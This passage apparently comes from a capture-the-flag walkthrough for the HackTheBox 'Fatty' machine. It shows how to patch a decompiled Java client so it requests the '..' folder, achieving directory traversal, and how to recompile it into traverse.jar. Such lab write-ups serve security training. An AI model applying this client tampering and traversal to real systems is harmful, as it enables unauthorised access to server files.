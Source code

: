The `showFiles` function takes in one argument for the folder name and then sends the data to the server using the `sendAndRecv()` call. The file `fatty-client-new.jar.src/htb/fatty/client/gui/ClientGuiTest.java` sets the folder option. Let's read its content.

```java
configs.addActionListener(new ActionListener() {
          public void actionPerformed(ActionEvent e) {
            String response = "";
            ClientGuiTest.this.currentFolder = "configs";
            try {
              response = ClientGuiTest.this.invoker.showFiles("configs");
            } catch (MessageBuildException|htb.fatty.shared.message.MessageParseException e1) {
              JOptionPane.showMessageDialog(controlPanel, "Failure during message building/parsing.", "Error", 0);
            } catch (IOException e2) {
              JOptionPane.showMessageDialog(controlPanel, "Unable to contact the server. If this problem remains, please close and reopen the client.", "Error", 0);
            } 
            textPane.setText(response);
          }
        });
```

We can replace the `configs` folder name with `..` as follows.

```java
ClientGuiTest.this.currentFolder = "..";
  try {
    response = ClientGuiTest.this.invoker.showFiles("..");
```

Next, compile the `ClientGuiTest.Java` file.

```powershell
C:\> javac -cp fatty-client-new.jar fatty-client-new.jar.src\htb\fatty\client\gui\ClientGuiTest.java
```

This generates several class files. Let's create a new folder and extract the contents of `fatty-client-new.jar` into it.

```powershell
C:\> mkdir raw
C:\> cp fatty-client-new.jar raw\fatty-client-new-2.jar
```

Navigate to the `raw` directory and decompress `fatty-client-new-2.jar` by right-clicking and selecting `Extract Here`. Overwrite any existing `htb/fatty/client/gui/*.class` files with updated class files.

```powershell
C:\> mv -Force fatty-client-new.jar.src\htb\fatty\client\gui\*.class raw\htb\fatty\client\gui\
```

Finally, we build the new JAR file.

```powershell
C:\> cd raw
C:\> jar -cmf META-INF\MANIFEST.MF traverse.jar .
```
